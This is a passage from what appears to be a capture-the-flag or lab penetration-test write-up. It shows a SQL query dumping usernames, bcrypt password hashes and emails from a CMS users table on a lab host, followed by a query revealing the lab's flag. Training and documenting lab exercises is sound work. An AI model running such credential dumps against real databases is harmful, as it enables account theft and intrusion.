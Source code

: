 ```bash
| tbl_folders                |
| tbl_groups                 |
| tbl_members                |
| tbl_members_requests       |
| tbl_notifications          |
| tbl_options                |
| tbl_password_reset         |
| tbl_users                  |
+----------------------------+
30 rows in set (0.142 sec)

```
{% endtab %}
{% endtabs %}

{% hint style="warning" %}
**We find user credentials** on the `cmsbase.tbl_users` table:

```
MySQL [cmsbase]> select user,password,name,email from tbl_users;
+---------+--------------------------------------------------------------+---------+-------------------+
| user    | password                                                     | name    | email             |
+---------+--------------------------------------------------------------+---------+-------------------+
| foocorp | $2a$08$f2fG8Ncpmj815xQ9U3Ylh.uD0VW/X6kOgjPIEHKP547jspS0FlHF6 | foocorp | admin@foocorp.io  |
| mickey  | $2a$08$w/oljwDbODAThUR4HTVO8eUjTabE80sH0i6xnOR97ZXfsGGmxohAW | mickey  | mickey@foocorp.io |
| donald  | $2a$08$dK04y0KEURxDv02vYRab1OMYMSWbW/bpGF.eAWrWv9JAGaa4yTxlq | donald  | donald@foocorp.io |
+---------+--------------------------------------------------------------+---------+-------------------+
```
{% endhint %}

{% hint style="success" %}
**Flag encountered!** :grin:&#x20;

While inspecting database tables, we find our flag in the `cmsbase.flag` table.

```
select * from flag;
+----+------------------------------+
| id | content                      |
+----+------------------------------+
|  1 | Congratulations, you got it! |
+----+------------------------------+
1 row in set (0.141 sec)
```
{% endhint %}

### ✔️172.16.64.91 (Linux 3.13 - 95%)
